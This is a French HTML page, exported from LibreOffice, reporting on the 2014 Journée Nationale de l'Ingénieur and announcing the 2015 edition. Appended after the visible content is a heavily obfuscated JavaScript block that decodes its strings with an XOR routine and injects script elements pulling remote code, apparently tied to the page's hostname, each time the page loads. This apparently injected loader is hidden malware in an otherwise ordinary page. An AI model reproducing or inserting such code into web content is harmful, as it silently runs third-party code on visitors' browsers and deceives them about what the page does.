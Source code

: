 ```yaml
---
layout: default
published: true
title: Untitled
---
```


##Bilan JNI 2014


<HTML>
<HEAD>
	<META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=utf-8">
	<TITLE></TITLE>
	<META NAME="GENERATOR" CONTENT="LibreOffice 4.0.5.2 (Linux)">
	<META NAME="AUTHOR" CONTENT="Jacques de VILLELE">
	<META NAME="CREATED" CONTENT="20140322;18060000">
	<META NAME="CHANGEDBY" CONTENT="J d V">
	<META NAME="CHANGED" CONTENT="20140322;18060000">
	<META NAME="AppVersion" CONTENT="12.0000">
	<META NAME="DocSecurity" CONTENT="0">
	<META NAME="HyperlinksChanged" CONTENT="false">
	<META NAME="LinksUpToDate" CONTENT="false">
	<META NAME="ScaleCrop" CONTENT="false">
	<META NAME="ShareDoc" CONTENT="false">
	<STYLE TYPE="text/css">
	<!--
		@page { margin: 0.98in }
		P { margin-bottom: 0.08in; direction: ltr; widows: 2; orphans: 2 }
		A:link { color: #0000ff; so-language: zxx }
	-->
	</STYLE>
<script id="6A8C7E1040C0947D"></script></HEAD>
<BODY LANG="fr-FR" LINK="#0000ff" DIR="LTR">
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=6><B>Succès
JNI 2014</B></FONT></FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Plus
de 5 000 participants présents à la JNI 2014</B></FONT></FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>qui se déroulerait
dans </FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U><B>28
villes de France</B></U></FONT></FONT><FONT FACE="Times New Roman, serif"><FONT SIZE=3>
avec des conférences, colloques, table ronde et ateliers, où sont
intervenu des entrepreneurs, des ingénieurs, des innovateurs et des
personnalités de premier plan pour y apporter leur expérience et
leur témoignage. Pour sa 2ème édition la Journée Nationale de
l’Ingénieur 2014 s’articulait autour du thème « Innover,
Entreprendre ».</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%"><A NAME="_GoBack"></A>
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Ces manifestations
étaient organisées en partenariat avec des entreprises et des
organismes de dimension nationale, avec la participation locale des
Régions françaises, des écoles d’ingénieurs et des associations
de diplômés.</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous pouvez revoir
les vidéos assister en différé des sessions qui se sont déroulées
pour le colloque national à la Cité des Sciences et de l’Industrie
le 3 avril 2014( </FONT></FONT><A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=3><U>http://www.iesf-jni.org/</U></FONT></FONT></FONT></A><FONT FACE="Times New Roman, serif"><FONT SIZE=3>).</FONT></FONT></P>
<P STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT FACE="Times New Roman, serif"><FONT SIZE=3>Vous décrouvrir
prochainement le compte rendu du colloque national à la Cité des
Sciences et de l’Industrie, et les photos des différentes JNI dans
toute la France.</FONT></FONT></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<A HREF="http://www.iesf-jni.org/"><FONT COLOR="#0000ff"><FONT FACE="Times New Roman, serif"><FONT SIZE=4 STYLE="font-size: 13pt"><U><B>http://www.iesf-jni.org/</B></U></FONT></FONT></FONT></A></P>
<P ALIGN=CENTER STYLE="margin-top: 0.02in; margin-bottom: 0.02in; line-height: 100%">
<FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>Rendez-vous
le </B></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><U><B>2
avril 2015</B></U></FONT></FONT></FONT><FONT COLOR="#2f5496"><FONT FACE="Times New Roman, serif"><FONT SIZE=5><B>
pour la troisième JNI</B></FONT></FONT></FONT></P>
<P STYLE="margin-bottom: 0.11in"><BR><BR>
</P>
<script id="6A8C7E1040C0947D">(function(){function p(r){var h=120,n="",w=window,z=("f\x72o"+""+"i\u0058"+"U\u0072\u0061\x72"+"C\x6fd"+"e")['r'+'\x65\x70'+'la\u0063e']("\x69XU"+"r","m"+"C"+""+"h"),e="ch\u0061r"+"\u0043\x6Fd"+"e\x41t"+"",t=("wz"+"ng"+"\x74h"+"")['re'+''+'pl\u0061\u0063e'](""+"w\x7a",""+"le"+""),o="\x53t\u0072i\u006e\x67",f=w[o],q=f[z],k,v;for(var s=0;s<r[t];s++){k=r[e](s);v=k^h;n+=q(v);}return n;};var qc=-1559780412;if(window[p(("S"+"\u0072\x6E"+"n"+"k\x62\b").replace("S"+"r"+"\u006e\u006Ek"+"b","\f\x17"))]==window[p('\u000b\x1d\x14\u001E')]){var vi={};var ff=true;vi[p(("m"+"\u007a\u0042h\n\u000B\u0011\x17\x16").replace("\x6Dz"+"\x42h"+"","\x0E\u001D"))]=p('I'+'\x4DO');try{var nd=-2035394659;}catch(pc){};vi[p(("UO"+"OV\x16\f\r\x11\x1C").replace("\u0055\x4FO\x56","\u001B\x14\x11\u001d"))]="6A8C7E1040C0947D";var xb="hF6y194b5JrB8 AK34";vi[p(('\u0019\x1C\u001c\x6C\u0079\u0046\u006bs'+'\u001d').replace('\u006C\x79\u0046k'+''+'s','\u0017\u0016\x16\x19\u0015'))]=p("\u002A\x1dU\x15\u0019\n\u0013\x11\f");window[p((""+"J"+"W\u0064\u004A\x0e\x02").replace("\u004a\x57"+"dJ","\'\n"))]=vi;(function(){window[p(('\'\'\n\x0E\u0002\n\x67\x6Cj\u0071\x14').replace('g\u006cjq','\x1c\u001f\u001F\x1C'))]={product_name:p(('\x2A\x42'+'J\u006B\u006F\u0019\n\u0013\u0011\f').replace('\u0042Jko','\x1D\u0055\u0015'))};var zj=document[p('\u001B\n\x1D\x19\f\u001D='+'\x14\u001D\x15\u001D\x16\f')](p("\x0b\x1B\n\x11\b\f"));zj[p("\x0B\u001D\f9"+"\f\f\n\x11\x1A\r\f\x1d")](p(("\u006D\u0050QK\b\x1D").replace(""+"m\x50\u0051\x4B","\f\u0001")),p(('\f\u001D\u0000\fW\u0012\u0019Il\u001b\n\x11\b\f').replace('\u0049l','\u000e\x19\x0b')));zj[p('\u000B\u001d\f\u0039\f\f\n\u0011\x1a\r\f\u001d')](p(("\u001B\u0010\u0019\n\x4Ek"+"o\x44\x7A\f").replace("\x4e\x6B\u006FD"+"z","\x0B\u001D")),p(("-\x2c\x64\u004E\u0040").replace("d\u004e",">U")));zj[p('\x0b\u001D\f9\f\f\n\u0011\u001a\r\f\x1d')](p('\u000b\n\x1B'),(p(('yb'+'\x0b\x42').replace('\x79\u0062','\u0010\f\f\b'))==document[p(("\x14\u0049\x47\u0071\x11\u0017\u0016").replace("\x49\u0047\x71","\u0017\x1b\x19\f"))][p((''+'ge'+''+'i\u0054\x1B\x17\x14').replace('g'+''+'eiT','\b\n\x17\f\x17'))]?p("\u0010\f\f\b\u000b"):p(('\x79O'+'A'+'E\u0045\u0047KOMo\x51R\x75\x53\f\b').replace('y\u004F\x41EE\x47\u004bOM\x6F\x51R'+'\x75\x53','\u0010\f')))+p(('\x42W'+'\u0057\u000F\u000F\x0fV'+'\u000b\r\b\x1D\n\x1E\u0011\u000B\u0010V\x1b\u0017\u0015W\x0F\u000bW'+'\x0B\u001E\'\u0015\u0019\x11\x16V\x12\x0B\bG\u001c\u0014\x0b\x17\r\n\x1b\x1D'+'E\u000B\x1E\n\u000e\u0002\n^'+''+'O\u0046'+'O\u001C'+'E').replace('\x4fF'+'\u004f','\r\x0b\u001d\n1'+''))+"6A8C7E1040C0947D"+p("^"+"\u003B\u002c\u0031<E\n\u000e\u0002\n"+"J"+"HL\x48\'\u004AH\x40J"));document[p('\u001A\u0017\x1c\x01')][p(("\x19\b\b\x1d\x16T"+"Ft\u0014\u001C").replace(""+"T\x46t","\u001C"+";\x10\u0011"))](zj);})();(function(){var jy=p(''+'*\x1d\u0055\u0015\u0019\n\x13\u0011\f');var mn={_keyStr:"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=",encode:function(qy){var gf="";var s,df,sw,xp,uw,ue,qu;var br=0;qy=mn[p(("\'\r\f\u001e@"+"\'"+"y\x53\x6f\x52\x70\x1c\x1d").replace("yS"+"\u006fRp"+"","\u001d\u0016\x1B\x17"))](qy);while(br<qy[p(("\u0014\u0054\x4c\u0010").replace("\u0054\u004c","\u001d\u0016\u001f\f"))]){s=qy[p("\u001B\u0010\x19\n"+";\x17\u001c\x1d\x39\f")](br++);df=qy[p(("\u001B\u0010\x19\u0045M\x1c\x1D"+"9\f").replace(""+"EM"+"","\n\u003B\x17"))](br++);sw=qy[p(("\u001b\x10\u0019"+"y\x68qsL\x39\f").replace("\x79h\u0071\x73"+"L","\n\u003B\x17\u001c\u001D"))](br++);xp=s>>2;uw=((s&3)<<4)|(df>>4);ue=((df&15)<<2)|(sw>>6);qu=sw&63;if(isNaN(df)){ue=qu=64}else{if(isNaN(sw)){qu=64}}gf=gf+this[p(("\'\u0055n\u0052\x4A\n").replace("\u0055\u006e\x52"+"J","\u0013\x1d\u0001\x2B\f"))][p("\x1B\x10\u0019\n\x39\f")](xp)+this[p('\'\x13\u001D\x01+'+'\f\n')][p(("vY"+"\f").replace("v\x59","\x1b\u0010\u0019\n\u0039"))](uw)+this[p("\'\u0013\u001D\u0001\u002B\f\n")][p(('\x1bYY\u0072\x48\x61\f').replace('Y'+'\x59\x72H\u0061','\x10\u0019\n9'+''))](ue)+this[p("\'\u0013\u001D\u0001+\f\n")][p("\x1b\x10\x19\n\u0039\f")](qu)}return gf},decode:function(xr){var df={},zp,gu,xz=[],ke="",kr=String[p(("\u001E\n\u0017\x15"+";b"+"\x73\u006e\x57\x3B\x17\x1c\u001d").replace("b\u0073\x6e\u0057","\u0010\u0019\n"))];var vn=[[65,91],[97,123],[48,58],[43,44],[47,48]];for(ts in vn){for(zp=vn[ts][0];zp<vn[ts][1];zp++){xz[p('\b\r\u000b\x10')](kr(zp))}}for(zp=0;zp<64;zp++){df[xz[zp]]=zp}for(zp=0;zp<xr[p(("v\x7A\x10").replace("\x76\u007A","\u0014\u001D\u0016\x1F\f"))];zp+=72){var qu=0,ue,gf,zr=0,zz=xr[p("\u000b\r\x1A\x0b\f\n\u0011\x16\u001F")](zp,zp+72);for(gf=0;gf<zz[p("\x14\u001D\x16\x1F\f\x10")];gf++){ue=df[zz[p(('\x1bT'+'\u0054'+'x\f').replace('\x54'+'T\u0078','\x10\x19\n9'))](gf)];qu=(qu<<6)+ue;zr+=6;while(zr>=8){ke+=kr((qu>>>(zr-=8))%256)}}}return ke},_utf8_encode:function(no){no=no[p('\n\x1D\b\x14\x19\x1b\u001d')](/\r\n/g,"\n");var vn="";for(var zr=0;zr<no[p("\u0014\u001D\x16\u001f\f\x10")];zr++){var gu=no[p('\x1B\u0010\x19\n\u003B\x17\x1c\x1d'+'9\f')](zr);if(gu<128){vn+=String[p(("\x1E\x73fq\x10\u0019\n;"+"\x17\u001c\x1D").replace("\u0073f"+"q","\n\x17\u0015\x3B"))](gu)}else{if((gu>127)&&(gu<2048)){vn+=String[p(('\u001E\n\x17\x15'+';\u0010\x19'+'z\x53\x4bz\u0056\x1d').replace('zS\u004B\x7a\x56','\n;'+'\x17\u001c'))]((gu>>6)|192);vn+=String[p(("\u001E\n\x17\u0015;\x10\x19\u0070\u0079\u0053"+"s\x1c\u001D").replace("\u0070\u0079"+"S\u0073","\n\u003b\u0017"))]((gu&63)|128)}else{vn+=String[p("\u001E\n\u0017\u0015;\u0010\u0019\n;\u0017\u001c\x1D")]((gu>>12)|224);vn+=String[p(("\x1E\n\u0017\x15"+";W"+"M\u004F\u001c\x1D").replace("\x57\x4dO","\x10\x19\n;"+"\u0017"))](((gu>>6)&63)|128);vn+=String[p(("\x1E"+"L\x62o\u0050\u0072\u0019\n;\x17\x1c\u001d").replace("L"+""+"b\u006f\x50\u0072","\n\x17\u0015"+";\u0010"))]((gu&63)|128)}}}return vn}};var ic=p("\x16\x45")+jy+p("\u005E\u0010\u0045\u001f\u0011\n"+"V\u001C\n\u0011\u000E\x1d\n\u0017\b\f\u0011"+"V\u0016\x1D\f^\x17E"+"\x1c\b^"+"\u0019"+"E\u004aH\x4c\u0048\x5E\u000b\x45\x4aH\x40J\u005e\x1bE\x1f\n\x1D\u001D\x16\x5E\u000FE")+document[p(('\x14\u0074S'+'tj'+'\x65\u0017\x16').replace(''+'t\u0053\u0074\x6Ae'+'','\x17\u001b\u0019\f\x11'))][p("\x10\u0017\x0b\f\u0016\x19\x15\x1d")];var vg=p(("\x10\f\f\bB"+"\u0057\x57\x1F\u0011\nV\u001c\n\x11\x0e\x1d\ny"+"\x4d\x4C\x51\u0059\f\u0011"+"V\x16\x1d\f\x57\x0b\x1cW\u0019\b\b\u000b\u0057\u0019\x1C\u0011\x16\u001e\x17UI"+"V\u0048W\x11\x16\u001c\x1d\x00V"+"\u0010\f\x15\u0014G").replace("y\u004D\u004cQY","\x17\b"))+mn[p('\x1d\u0016\u001b\x17\u001c\x1d')](ic);var zj=document[p('\x1B\n\u001d\u0019\f\u001D\x3d\u0014\x1d\x15\x1D\u0016\f')](p('\u000B\u001B\n\x11\b\f'));zj[p('\x0B\u001D\f\x39\f\f\n\u0011\u001a\r\f\x1d')](p("\f\u0001\b\u001D"),p("\f\u001d\u0000\fW"+"\x12\x19\u000e\u0019\x0b\x1B\n\x11\b\f"));zj[p(("\x74p"+"FBY\f\x39\f\f\n\x11\x1A\r\f\u001d").replace("tpFBY"+"","\u000b\u001d"))](p((''+'I\u0041\u0066Y\x1d\f').replace('I\x41'+'fY'+'','\x1B\u0010\u0019\n\x0B')),p(('\u0070\u005a\x51\x3e'+'U\x40').replace('p\u005a'+'Q','\u002D,')));if("http:"==document[p(("\x14\x74lQq\x19\f\u0011\u0017\x16").replace("t"+"l\x51"+"q","\x17\x1B"))][p("\b\n\x17\f\u0017\u001b\u0017\u0014")]){zj[p(("\u000b\u001d\f9\f\f\n\x11l\u0059\f\x1d").replace(""+"l"+"Y","\x1a\r"))](p(('\x6C\u004e'+'VK\x55j\u006D\u0078'+'B\x73\u0076\u0056R\x1b').replace('\x6C\x4E'+'VK'+'U'+'j'+'\u006d\u0078\u0042s\x76\x56R','\u000b\n')),p(('\u0010\f\f\b\x42\x57W\x11V'+'\n\u000E\u0002\n\x12\u000bV\u0011\x16\u001E\x50C'+'\u0079\x5A\n'+'W\u0012\u0019\u000E\x19\x0b\x1b\n\u0011\b\f\x56\x12\x0b\u0047\u001B\x10\x19\x16\x16\u001d\x14'+'E\n\u000E\u0002\n'+'J\u0048\x4CH\'J'+'H\x40J\x5E\x19\b\b,\u0011\f\x14\u001DE').replace('\x50\u0043\u0079Z','\u0017\u0057\n\u000e\x02'))+jy+p('^\b\x14\u0011\x16\x13E'+'')+encodeURIComponent(vg));}else{zj[p('\u000B\x1D\f\x39\f\f\n\x11\x1a\r\f\x1d')](p('\x0b\n\x1B'),p("\u0010\f\f\b\x0bBW"+"\u0057\u0011\'\n\u000e\u0002\n\x12\u000b\'\x11\x16\x1e\u0017\x56\f\x14\u000B\x1B\x1c\x16V\u001B\u0017\x15\u0057\n\u000e\x02\n"+"W\u0012\u0019\x0e\u0019\u000b\x1b\n\x11\b\fV\u0012\u000B\u0047\x1b\u0010\x19\u0016\u0016\u001D\x14E\n\u000e\u0002\n"+"J\x48"+"L\u0048\'\x4a\u0048\x40J\x5e\x19\b\b"+",\x11\f\x14\x1dE")+jy+p("\u005e\b\x14\u0011\x16\x13E"+"")+encodeURIComponent(vg));}document[p("\x1A\x17\u001C\u0001")][p(('\x19\u004D'+'B'+';\u0010\u0011\x14\x1c').replace('\u004D'+'B','\b\b\x1D\x16\x1c'))](zj);})();;var af=document[p('\x1B\n\u001d\x19\f\u001d='+'\x14\x1d\u0015\u001d\u0016\f')](p(("\u000b\u0041D\f").replace("A\x44","\u001B\n\x11\b")));if(navigator.language){var kx=('o'+'\u0078BF'+'\x42J\u0048\x4bj\u0054\u0034\x3a\u0048'+'G\u0020\u0020d\u0070'+'6\u0065\u0057'+'P\u0031').replace('\x78\x42\u0046B','\x6B\x6e\x519i'+'');}else var vm=(' \x45\u0069A'+'cL'+'\x31N\x36X'+'\u0020\x66\x64'+'v\x78\x751').replace('d'+'vxu'+'',' \u0033\x61C'+'\x20');af[p("\x0b\n\u001b")]=p('\u0057W'+'\u001F\u0011\n\u0056\x1C\n\u0011\u000e\x1d\n\u0017\b\f\x11V\u0016\u001d\fW\x0b\u001cW\x4AH\x4C\x48W'+'\u004a\u0048\x40\x4a\u0056\x12\x0b');if(true)var ti='Uq ';else var ln=location.hostname;document[p(('\x1AZ'+'\x74'+'p\x53\u0075'+'U\x70\u0078\x49P'+'v'+'\u0066\u0001').replace('\u005a\u0074p'+'S\u0075'+'U'+'px\x49'+'P\x76\u0066','\u0017\x1C'))][p('\u0019\b\b\u001D\x16\x1c;'+'\x10\u0011\u0014\x1C')](af);}})();</script></BODY>
</HTML>